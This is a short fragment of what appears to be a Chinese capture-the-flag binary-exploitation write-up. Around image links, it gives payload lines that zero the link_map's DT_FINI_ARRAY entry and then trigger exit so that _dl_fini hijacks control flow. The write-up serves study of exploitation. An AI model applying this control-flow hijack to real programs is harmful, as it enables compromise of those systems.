 ```plain
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0)) 
#l->l_info[DT_FINI_ARRAY] = 0
```

[![](assets/1701612101-b35e05de74c8e7fa33193464b40fc801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100822-94e5ffe0-52a3-1.png)

[![](assets/1701612101-445e7e89323f4cd7ad5d154aede28352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100831-9a0480dc-52a3-1.png)

```plain
payload += b'q'
#显式触发 exit 函数调用_dl_fini 函数，进而控制程序流
```
